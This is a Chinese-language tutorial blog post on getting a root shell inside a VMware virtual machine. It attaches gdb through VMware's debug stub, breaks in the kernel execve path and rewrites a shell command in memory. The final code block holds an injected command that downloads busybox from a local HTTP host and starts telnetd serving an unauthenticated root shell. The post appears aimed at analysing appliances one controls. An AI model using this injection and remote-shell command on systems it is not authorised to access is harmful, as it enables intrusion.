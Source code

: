 ## 通过虚拟机调试获取Root Shell

### 参考文章 

https://wzt.ac.cn/2021/05/12/vm_shell/ 一些虚拟机获取 shell 的方法

### 前言

在参考文章中提到一种通过虚拟机调试的方式获取虚拟机root shell。<br>
不过用参考文章中的方法得到root shell时，系统是没有完全初始化的，网络也没有起来，很不方便，于是本文在参考文章的基础上进行了一些改进。<br>
这算是一种比较通用的获取虚拟机root shell方法，不用去修改文件系统，不用管文件系统初始化校验。

### **如何对虚拟机进行调试**

vmware workstation 提供了虚拟机调试接口，官方文档指出只需要在虚拟机的 vmx 文件中添加以下选项，即可在外部使用 gdb 附加到虚拟机上，从而实现对虚拟机的调试。<br>

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12347"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12348"
```

目标虚拟机是64位系统，就使用debugStub.port.guest64作为gdb远程调试端口。<br>
目标虚拟机是32位系统，就使用debugStub.port.guest32作为gdb远程调试端口。<br>
其他虚拟机软件VirtualBox,Qemu等等应该也有类似的方法进行虚拟机调试，暂未具体研究。<br>
在虚拟机的 vmx 文件中添加选项后，启动虚拟机，待虚拟机完全启动进入系统后，执行gdb命令远程附加。<br>

```
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 0:12347
Remote debugging using 0:12347
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff819b3eae in ?? ()
(gdb)
```

### 获取Root Shell基本思路

在系统运行时，肯定会执行system/exec类函数，底层都是调用系统内核函数。<br>
不管哪个内核exec系统调用都会调用_do_execve_file_isra_45函数。<br>
![image-20230621134851416](./Images/image-20230621134851416.png)<br>
所以我们在内核_do_execve_file_isra_45函数处下断点，断下后更改函数参数，注入我们自己的命令，即可获取Root Shell.<br>

#### 一些技巧

1.定位_do_execve_file_isra_45函数位置<br>
a)有内核elf文件时<br>
一般内核elf文件中是没有符号的，如果有符号就直接可以定位_do_execve_file_isra_45函数位置。<br>
没有符号时，可以通过HOME=/字符串定位run_init_process函数，进而定位_do_execve_file_isra_45函数位置。<br>
![image-20230621140554288](./Images/image-20230621140554288.png)<br>
![image-20230621140609507](./Images/image-20230621140609507.png)<br>
b)无内核elf文件时<br>
暂未研究成功，先搁置。<br>
2.断点技巧<br>
目标是找到一个参数是/bin/sh -c xxx的调用，这样就可以直接修改xxx的值进行命令修改，可以在_do_execve_file_isra_45函数处下条件断点过滤参数。<br>

```
break *0xffffffff811c2fb0 if *(*(long long*)($rsi))==0x6e69622f

Thread 1 hit Breakpoint 1, 0xffffffff811c2fb0 in ?? ()
(gdb) x/6gx $rcx
0x7ffd6c4acf10: 0x00007f3463d22ae9      0x00007f3463d22ae1
0x7ffd6c4acf20: 0x000000000066c0a0      0x0000000000000000
0x7ffd6c4acf30: 0x00007f3464833f82      0x00007ffd6c4acfc0
(gdb) x/s 0x000000000066c0a0
0x66c0a0:       "/usr/bin/lsb_release -sd 2>/dev/null"
(gdb)

修改对应的命令

set {char [113]} 0x000000000066c0a0 = "cd /tmp;/bin/busybox wget http://192.168.248.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22222 -l sh"

继续执行即可获取一个root shell
```

#### End
读者有责任遵守其所在国家或地区的所有法律。<br/>
作者不对使用本博客任何文章中提到的任何内容所造成的任何损害负责。<br/>
本博客全部文章遵循 CC-BY-SA-4.0 协议。<br/>
https://creativecommons.org/licenses/by-sa/4.0/<br/><br/>
<!-- 欢迎关注我的微信公众号！<br/>
![qrcode](Images/qrcode.jpg) -->